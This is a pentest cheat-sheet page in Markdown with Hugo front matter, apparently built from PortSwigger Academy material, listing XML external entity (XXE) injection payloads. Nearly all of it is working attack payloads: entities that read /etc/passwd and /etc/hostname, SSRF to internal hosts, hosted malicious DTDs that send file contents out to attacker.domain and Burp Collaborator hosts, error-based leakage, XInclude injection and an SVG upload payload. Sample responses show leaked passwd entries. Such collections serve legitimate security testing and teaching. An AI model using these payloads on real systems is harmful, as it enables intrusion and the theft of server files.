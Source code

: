 ```yaml
---
title : "XXE Injection"
pre : '<i class="fa fa-file-excel"></i> '
description : "XXE injection payloads."
date : 2022-03-11T18:01:46+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## XML external entity (XXE) injection

## Retrieve files

Add DOCTYPE line to XML and call entity via a value used in the app.

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

## Invoke SSRF

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<foo>&xxe;</foo>
```

## Blind XXE

If response is not returned to client, we can use Burp collaborator for out-of-band testing ([read about OAST](https://portswigger.net/burp/application-security-testing/oast)).

### Blind XEE using OAST

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> ]>
<foo>&xxe;</foo>
```

### Blind XEE using OAST via XML parameter entities

Add DOCTYPE line to XML with Burp collaborator URL and call XML parameter entity via a value used in the app (mind the '%' in both lines).

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY % xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> %xxe; ]>
<foo>%xxe;</foo>
```

### Blind XXE to exfiltrate data via OAST

In order to exfiltrate data using XEE via OAST, you need to host DTD.
Note that files with newlines (e.g. '/etc/passwd') cannot be exfiltrated this way.

First host malicious DTD (e.g. 'ht<span>tp://</span>attacker.domain/dtd'):

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://SUBDOMAIN.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Then inject XEE in HTTP request:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://attacker.domain/dtd"> %xxe;]>
```

### Blind XXE to exfiltrate data via error messages

Works if the app returns the resulting error message within its response. It's possible to exfiltrate files with newlines this way.

First host malicious DTD (e.g. 'ht<span>tp://</span>attacker.domain/dtd'):

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Then inject XEE in HTTP request:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://malicious.domain/dtd"> %xxe;]>
```

Example HTTP response:

```plain
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1339

"XML parser exited with non-zero code 1: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...SNIP...]
```

### Blind XXE by repurposing a local DTD

See [PortSwigger Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

## Exploiting XInclude to retrieve files

Often you don't see the XML from a client's perspective. Instead, the app backend embeds user input into an XML document. Classic XXE will not work, but we can use XInclude for this.

```plain
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example in HTTP request (injecting via 'productId' example parameter):

```plain
POST /product/stock HTTP/1.1
Host: example.net
Content-Type: application/x-www-form-urlencoded
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example HTTP response:

```plain
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1278

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...SNIP...]
```

## XXE via file upload

Upload SVG file containing XXE code:

```plain
<?xml version="1.0" standalone="yes"?><!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content type

Some apps tolerant changing the content type to XML.

Normal HTTP request:

```plain
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Request content changed to XML, opening possible XXE attack surface:

``` plain
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### URL list

* [Portswigger.net academy - XXE injection](https://portswigger.net/web-security/xxe)
